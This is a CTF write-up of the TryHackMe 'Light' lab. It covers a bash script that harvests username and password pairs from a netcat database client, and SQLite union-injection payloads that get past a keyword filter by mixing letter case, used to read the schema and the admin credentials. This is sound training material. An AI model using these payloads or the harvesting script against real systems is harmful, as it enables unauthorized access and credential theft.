

# Light - Writeup

**Date**: 09/02/2025

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/lightroom](https://tryhackme.com/room/lightroom)

—

I am working on a database application called Light! Would you like to try it out?

If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.238.192 1337`. You can use the username `smokey` in order to get started.

---

Let’s start by connecting via **netcat** to the target machine using the port 1337 as it’s said in the machine’s description. 

<figure><figcaption></figcaption></figure>

It looks like a client that asks you for an username and, if it exists, it returns the password of that user (or it seems so). I used the username provided in the description and got its password. Tried also with `admin` and `root` usernames without any success.

```php
smokey:vYQ5ngPpw8AdUmL
```

Let’s do a port scan to see if there is any other service running on the target machine: 

<figure><figcaption></figcaption></figure>

The SSH port is open.

<figure><figcaption></figcaption></figure>

And it’s using OpenSSH, so let’s try to log in using the smokey credentials:

<figure><figcaption></figcaption></figure>

Too easy to be true. 
As this client asks for a username, and if it exists returns a message with the password I asked ChatGPT for a simple bash program that will read from a username list file, send each username to the client and wait for the response.

```php
#!/bin/bash

# Verify that the 3 parameters had been set
if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <IP> <PORT> <USERLIST>"
    exit 1
fi

IP="$1"
PORT="$2"
USERLIST="$3"

# Verify the userlist exists
if [ ! -f "$USERLIST" ]; then
    echo "The file $USERLIST does not exist."
    exit 1
fi

# Connect with netcat and manage the communication
coproc nc_proc { nc -v "$IP" "$PORT"; }
exec 3<&${nc_proc[0]} 4>&${nc_proc[1]}

# Read and wait for the Welcome message
while IFS= read -r line <&3; do
    echo "$line"
    if [[ "$line" == *"Welcome to the Light database!"* ]]; then
        break
    fi
done

# Initialitate counter
lineNumber=0

# Read the file lines and process
while IFS= read -r user; do
    ((lineNumber++))
    
    # Wait for the "username" message
    while IFS= read -r -d ": " line <&3; do
        # echo "$line"
        if [[ "$line" =~ "username" ]]; then
            # Send username with the explicit line jump
            echo -e "$user\n" >&4
            break
        fi
    done
    
    # Wait response
    while IFS= read -r line <&3; do
        # echo "$line"
        if [[ "$line" =~ "Password" ]]; then
            pass=$(echo "$line" | awk '{print $NF}')
            echo "[!] $user : $pass"
            break
        else
            break
        fi
    done

done < "$USERLIST"

# Close connections
exec 3<&-
exec 4>&-
```

Using this tool along with a username list from SecLists, I managed to discover some usernames and their passwords.

<figure><figcaption></figcaption></figure>

```php
[!] michael : 7DV4dwA0g5FacRe
[!] john :    e74tqwRh2oApPo6
[!] steve :   WObjufHX1foR8d7
[!] battery : vYQ5ngPpw8AdUmL
[!] internet :YO1U9O1m52aJImA
[!] logan :   yAn4fPaF2qpCKpR
[!] Joseph :  tF8tj2o94WE4LKC
```

I tried to connect via SSH using that credentials, without success. At that time I was wondering if the passwords could be encoded, but after some tries I didn’t managed to decoded them.

Doing a recap I realized that I overlooked something… The first message is telling me that I’m accessing a database. Let’s check if it’s vulnerable to SQL Injection:

<figure><figcaption></figcaption></figure>

It seems to be vulnerable! By looking at the error thrown, I guess that the query that the server is done should be something like `SELECT password FROM database WHERE username = '$USER_INPUT' LIMIT 30;`

Apparently, the user input is being filtered, because it doesn’t allow me to send `--`,`/*` or `%0b`, so I’m unable to comment the final part of the query.

<figure><figcaption></figcaption></figure>

I sent `smokey' union select schema_name from information_schema.schemata` so, if my guess is not wrong, the complete query should be something like `SELECT password FROM database WHERE username = 'smokey' union select schema_name from information_schema.schemata' LIMIT 30;`

The client throws an error, telling me that it doesn’t like a word I sent. I tried sending `union` and it seems to be the problematic word. If I send an uppercase `UNION` it throws the same error, but if I use a combination of uppercase and lowercase letters, the client allows the input. Knowing that, I’ll use this combination to write every key word just in case.

I also noticed that my query was not correct, so I fixed it to be `smokey' Union Select schema_name From information_schema.schemata Union Select '` so the complete query should be: `SELECT password FROM database WHERE username = 'smokey' union select schema_name from information_schema.schemata Union Select '' LIMIT 30;`

<figure><figcaption></figcaption></figure>

And the client reported that the database has no the table **information_schema.schemata**. It might mean that the database is not using MySQL and maybe is using SQL Lite. According to this page of [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) we can extract the database table name by using the query `SELECT tbl_name FROM sqlite_master WHERE type='table'`, so let’s try it:

`Smokey' Union Select tbl_name From sqlite_master Where type='table`

<figure><figcaption></figcaption></figure>

The output of the client says that the name of the table is **admintable**. I messed it up by changing the username from smokey to Smokey, but it seems to work (and it doesn’t add more text to the output), so let’s continue like that.

Now, let’s try to extract the column names of **admintable** by using the input: `Smokey' Union Select sql From sqlite_master Where type!='meta' And sql Not Null And name='admintable`

<figure><figcaption></figcaption></figure>

The column names are **id**, **username** and **password**. Now we can try to extract the username and passwords of all users:

`Smokey' Union Select username From admintable Where id='1`

`Smokey' Union Select password From admintable Where id='1`

<figure><figcaption></figcaption></figure>

The user assigned to **id=1** seems to be the admin user…

<figure><figcaption></figcaption></figure>

I tried to log in via SSH using that credentials, but nope.

<figure><figcaption></figcaption></figure>

Also, the database client doesn’t seems to recognize the username.

<figure><figcaption></figcaption></figure>

By enumerating the next id from the database, I found the flag of this CTF.